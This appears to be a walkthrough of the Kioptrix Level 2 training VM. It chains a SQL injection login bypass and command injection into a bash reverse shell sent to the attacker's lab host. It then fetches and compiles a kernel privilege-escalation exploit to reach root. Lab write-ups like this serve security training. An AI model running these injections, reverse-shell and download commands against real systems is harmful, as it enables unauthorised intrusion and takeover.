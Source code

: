 # Kioptrix Level 2
Insert `ethernet0.connectionType = "nat"` to .vmx, and change all `bridged` in the .vmx file of the VM before use VMware to open it.
![](https://i.imgur.com/NWG2WuI.png)
Host is `192.168.232.145`
![](https://i.imgur.com/YcIxsUG.png)
Victim is `192.168.232.147`
`nmap -sS -sV -p- -oN NampKioptrixLv2.txt 192.168.232.147`
![](https://i.imgur.com/QrFQ8Xd.png)
We got http service
![](https://i.imgur.com/bufhsOg.png)
Let's give it with simple SQLi
```php
stmt = "select * from user where username ='".$Name."' and password='".$Passwd."';"
```
account: `admin' or '1'='1`
password: `{WhateverJustTypeSomething}`
![](https://i.imgur.com/zCnoi9n.png)
Then you will see a web shell.
![](https://i.imgur.com/e4bctbZ.png)
Usually we need to find the way to command inject and locate where we are then create return shell.
First we try `;` semicolon
![](https://i.imgur.com/3D7e3YO.png)
![](https://i.imgur.com/OvTTInj.png)
Open a listener before shell return.
`nc -lvp 8888`
![](https://i.imgur.com/ocunQI6.png)
`;bash -i >&/dev/tcp/192.168.232.145/8888 0>&1`
![](https://i.imgur.com/s8ZxtP9.png)
Find the PoE [Linux Kernel 2.4/2.6 'sock_sendpage()' Ring0 Privilege Escalation](https://www.exploit-db.com/exploits/9479). Copy as file and launch a simple server.
`python -m SimpleHTTPServer 80`
![](https://i.imgur.com/dBQOCZh.png)
Then use return shell to get the C file and compile it.
`wget http://192.168.232.145/LinuxKernelPoC.c`
![](https://i.imgur.com/mErmrVt.png)
Permission Denied because we are in Web protect path, switch to else where.
![](https://i.imgur.com/8lqHItb.png)
After compiling, change mode and execute it.
Now we got the root.

